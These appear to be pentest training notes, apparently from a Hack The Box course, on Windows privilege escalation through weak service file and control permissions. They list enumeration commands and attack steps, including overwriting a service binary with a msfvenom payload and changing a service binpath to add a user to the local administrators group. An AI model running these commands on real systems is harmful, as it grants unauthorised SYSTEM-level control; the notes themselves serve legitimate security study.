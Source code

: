 ### 🧠 Core Idea

Windows is bad at locking down permissions. If you can write where you shouldn’t, you can hijack services and escalate to SYSTEM. Most of this abuse hits **services** with bad file/registry permissions.

---

### 🔓 **Modifiable Service Binaries (File ACLs)**

- Use `SharpUp.exe audit` to find services with binaries you can overwrite.

- Confirm with:

```bash
icacls "C:\Program Files\Path\Binary.exe"
```

- If `Everyone` or `Users` has `(F)` (full control) = it’s game over.


**Attack:**

1. Overwrite binary with a malicious payload (`msfvenom`, etc.).

2. Start the service:

```cmd
sc start <ServiceName>
```


---

### 🛠️ **Weak Service Permissions (Service Control ACLs)**

- Check with:

```cmd
accesschk.exe -quvcw <ServiceName>
```

- If `Authenticated Users` has `SERVICE_ALL_ACCESS`, you can **reconfigure** the service.


**Attack:**

1. Change `binpath` to your command:

```cmd
sc config <ServiceName> binpath= "cmd /c net localgroup administrators htb-student /add"
```

1. Restart the service:

```cmd
sc stop <ServiceName>  
sc start <ServiceName>
```


---
